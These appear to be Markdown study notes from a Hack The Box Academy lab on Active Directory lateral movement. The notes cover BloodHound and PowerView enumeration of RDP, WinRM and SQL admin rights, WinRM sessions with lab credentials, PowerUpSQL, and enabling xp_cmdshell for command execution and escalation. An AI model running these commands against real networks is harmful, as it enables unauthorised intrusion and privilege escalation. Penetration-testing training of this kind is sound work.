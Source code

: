 # Privileged Access: Lateral Movement in AD

Once you have a foothold in an Active Directory (AD) environment, the next step is to move laterally or escalate privileges. This section covers practical techniques and tools for lateral movement, focusing on:

- Remote Desktop Protocol (RDP)
- PowerShell Remoting (WinRM)
- SQL Server (MSSQL) Admin Access

## Key Enumeration Tools
- **BloodHound**: Visualizes user rights (CanRDP, CanPSRemote, SQLAdmin)
- **PowerView**: Enumerates group memberships and remote access rights

---

## Scenario Setup
- **Windows attack host**: RDP into MS01
- **Linux attack host**: SSH to `172.16.5.225` (`htb-student:HTB_@cademy_stdnt!`)
- Try all methods: Enter-PSSession, PowerUpSQL (Windows); evil-winrm, mssqlclient.py (Linux)

---

## 1. Remote Desktop Protocol (RDP)

- **Goal**: Access hosts via GUI, escalate privileges, or collect sensitive data.
- **Requirement**: User must be in the "Remote Desktop Users" group or have local admin rights.

### Enumerate RDP Access
**PowerView:**
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
*Example Output:*
```
MemberName   : INLANEFREIGHT\Domain Users
```
- If "Domain Users" is present, all users can RDP to the host.

**BloodHound:**
- Check for `CanRDP` edges or run built-in queries like "Find Workstations where Domain Users can RDP".

**Testing RDP:**
- Windows: `mstsc.exe`
- Linux: `xfreerdp`, `Remmina`

---

## 2. PowerShell Remoting (WinRM)

- **Goal**: Run commands or get an interactive shell on remote hosts.
- **Requirement**: User must be in the "Remote Management Users" group or have WinRM rights.

### Enumerate WinRM Access
**PowerView:**
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```
*Example Output:*
```
MemberName   : INLANEFREIGHT\forend
```

**BloodHound Cypher Query:**
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

### Establishing a WinRM Session
**Windows:**
```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```
**Linux:**
- Install: `gem install evil-winrm`
- Connect: `evil-winrm -i <IP> -u <USER>`

---

## 3. SQL Server (MSSQL) Admin Access

- **Goal**: Execute queries or OS commands as the SQL service account (often privileged).
- **Requirement**: User with `sysadmin` rights on SQL Server.

### Enumerate SQL Admin Access
**BloodHound Cypher Query:**
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

### Using PowerUpSQL (Windows)
```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

### Using mssqlclient.py (Linux)
```bash
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
- Type `help` for available commands (e.g., `enable_xp_cmdshell`, `xp_cmdshell whoami /priv`)

*Example: Enable and use xp_cmdshell:*
```sql
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
```
- Look for `SeImpersonatePrivilege` (can be used for SYSTEM-level escalation with tools like JuicyPotato, PrintSpoofer, RoguePotato)

---

## Practical Tips
- Always re-enumerate rights after gaining new credentials or host access.
- BloodHound is invaluable for quickly mapping remote access and escalation paths.
- Test SQL credentials found in config files against MSSQL servers—often leads to SYSTEM access.

---

## Summary
- Focus on RDP, WinRM, and SQLAdmin rights for lateral movement.
- Use PowerView and BloodHound for enumeration.
- Use practical tools (evil-winrm, mssqlclient.py, PowerUpSQL) for exploitation.
- Privilege escalation is often possible even without initial local admin rights—enumerate thoroughly!

*Next: Common WinRM connection issues and troubleshooting.* 